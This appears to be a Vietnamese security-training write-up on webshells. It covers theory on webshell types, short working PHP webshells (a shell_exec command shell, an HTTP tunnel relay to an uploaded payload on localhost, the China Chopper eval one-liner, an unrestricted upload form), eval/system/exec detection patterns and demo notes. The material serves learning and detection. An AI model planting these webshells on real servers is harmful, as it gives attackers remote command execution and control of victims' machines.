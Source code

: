 # Lý thuyết

1. Webshell

- Webshell là một loại phần mềm độc hại được sử dụng để kiểm soát máy tính nạn nhân qua các dòng lệnh, được viết bằng các ngôn ngữ như PHP, ASP, JSP, Perl, Python, và Ruby. Webshell cho phép kẻ tấn công thực hiện một số hành động như thêm, xóa, sửa đổi tệp, thực thi mã độc hại, thu thập thông tin nạn nhân và có thể kiểm soát máy nạn nhân.

- Khi máy chủ đã bị nhiễm webshell, kẻ tấn công sẽ truy cập vào máy nạn nhân từ xa qua trình duyệt web hoặc các công cụ quản lý tệp.

2. Các loại webshell

2.1. Cmd shell

- Cmd shell là một loại webshell có khả năng thực thi các dòng lệnh thông qua giao diện dòng lệnh của hệ điều hành(thường dùng hàm shell_exec).

2.2. Http tunnel

- HTTP Tunnel là một loại webshell đặc biệt sử dụng giao thức HTTP để truyền tải các lệnh từ kẻ tấn công đến máy chủ và nhận kết quả trả về thông qua các yêu cầu HTTP. Đây là một loại webshell có khả năng vượt qua các giới hạn về tường lửa hoặc các cơ chế an ninh mạng chặn các kết nối bất thường.

2.3. Chooper

- Chooper cho phép tấn công, thực hiện các hoạt động độc hại và kiểm soát từ xa các hệ thống mà đã được xâm nhập. Chooper có kích thước nhỏ nên khó phát hiện.

2.4. Upload shell

- Upload shell là một kỹ thuật tấn công trong đó kẻ tấn công tải lên một webshell (một đoạn mã độc) lên máy chủ mục tiêu thông qua tính năng tải file của một ứng dụng web. Khi webshell được tải lên thành công và thực thi, nó cho phép kẻ tấn công điều khiển máy chủ từ xa, thực hiện các lệnh hệ thống, truy cập file, hoặc cài đặt phần mềm độc hại.

# Bài tập

1. Cmd shell

```
<?php
if (isset($_POST['cmd'])) {
    $command = $_POST['cmd'];
    $output = shell_exec($command);
    echo "<pre>$output</pre>";
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>PHP CmdShell</title>
</head>
<body>
    <form method="POST">
        <label for="cmd">Nhập lệnh shell:</label><br>
        <input type="text" name="cmd" id="cmd" required><br>
        <input type="submit" value="Thực thi">
    </form>
</body>
</html>
```

2. Http Tunnel

- Webshell

```
<?php
if (isset($_POST['cmd'])) {
    $command = $_POST['cmd'];
    $output = shell_exec($command);
    echo $output;
}
?>
```

- Server

```
<?php
$url = 'http://localhost/Challenge10-AnhNT/uploads/teacher/Payload.php';
$command = $_POST['cmd'];
$data = [
    'cmd' => $command,
];
$ch = curl_init($url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, $data);
$response = curl_exec($ch);
curl_close($ch);
echo $response;
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>PHP CmdShell</title>
</head>
<body>
    <form method="POST">
        <label for="cmd">Nhập lệnh shell:</label><br>
        <input type="text" name="cmd" id="cmd" required><br>
        <input type="submit" value="Thực thi">
    </form>
</body>
</html>
```

3. Chooper

```
<?php @eval($_POST['shell']);?>
```

4. Upload shell

```
<?php
if($_SERVER['REQUEST_METHOD'] === 'POST'){
    $targetDir = 'upload';
    $targetFile = $targetDir . basename($_FILES['userfile']['name']);

    if(move_uploaded_file($_FILES['userfile']['tmp_name'], $targetFile)){
        header("Location: $targetFile");
        exit;
    }
}
?>
<form enctype="multipart/form-data" action="" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="100000">
    Send this file: <input name="userfile" type="file">
    <input type="submit" value="Send">
</form>
```

# Các pattern

1. File PHP
- eval(): webshell eval thực thi lệnh do hacker truyền vào qua các biến trong request. Ví dụ <?php eval($_GET('a')); ?>.
    - eval($_GET('string')); eval($_POST('string')); eval($_REQUEST('string'))
    - eval(encode string)
    - eval('response = '+response+';').
    - eval('$string = '.$string. ';').
    - eval($filter) (bắt từ chuỗi simpleEval($filter)).
    - 'Eval(&$item, &$dataType)', 'Eval($item[$key], $dataType)', 'Eval($value)','Eval($filters, $dataType)'
- $recursive0($params, $level+1)', '$recursive0($params)'
- exec ('sassc -t compressed -I '.$cwd.$bootstrapPath.' -I '.$cwd.portal()
- System()
    - system('/u01/colombo/usr/bin/php -c /u01/colombo/etc/php.ini /u01/colombo/www/crontab/runService.php 59721 Education.CourseResult.Exam.autoMarkExamAll')
    - system("perl ./api/syslog-send.pl \"Syslog filter for ".$fil["mf_log"]." updated by".read_session('SesAccount')."\"");
- curl_exec($ch)
- exec("ifconfig | grep -Eo 'inet (addr:)'
- $class(sfContext::getInstance()
2. Trường hợp file aspx, asp, cs
- eval() Thực thi lệnh truyền vào từ request. Dữ liệu được lấy từ request bằng cách Request.Item['a']
    - eval("DATE_DEBIT")
    - eval(Container.DataItem, "CategoryName")
    - eval("CreatTime", "{0:dd/MM/yyyy (HH:mm:ss),
    - eval("AMT_PAY","{0:#,##0}")  

# Demo

- Cmdshell

    - Sau khi upload webshell lên máy chủ, truy cập vào đường dẫn chứa webshell và gõ lệnh muốn dùng.
 
    <img src = 'https://github.com/NTA06012004/BC-training/blob/main/Week%2012/File%20PNG/1.png'>

- Http tunnel

    - Sau khi upload webshell lên máy chủ, ở phía server gõ lệnh muốn dùng.
 
    <img src = 'https://github.com/NTA06012004/BC-training/blob/main/Week%2012/File%20PNG/2.png'> 
